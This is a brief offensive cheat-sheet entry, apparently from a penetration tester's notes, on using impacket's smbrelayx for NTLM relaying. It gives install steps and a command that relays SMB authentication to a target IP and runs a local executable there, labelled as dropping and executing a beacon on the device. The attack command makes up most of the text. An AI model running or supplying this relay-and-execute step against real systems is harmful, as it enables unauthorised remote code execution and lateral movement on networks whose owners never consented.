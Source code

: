 # smbrelayx

## [[NTLM Relaying]]
1. Install
    ```bash
    pip3 install impacket
    git clone https://github.com/SecureAuthCorp/impacket
    ```
2. Drop and execute beacon on device
    ```bash
    cd impacket
    sudo python3 examples/smbrelayx.py -h 192.168.1.118 -e ~/smbexp.exe
    ```

```meta
requirements: 
results: 
oss: #linux
source: https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbrelayx.py
description: Relax SMB requests to target 
```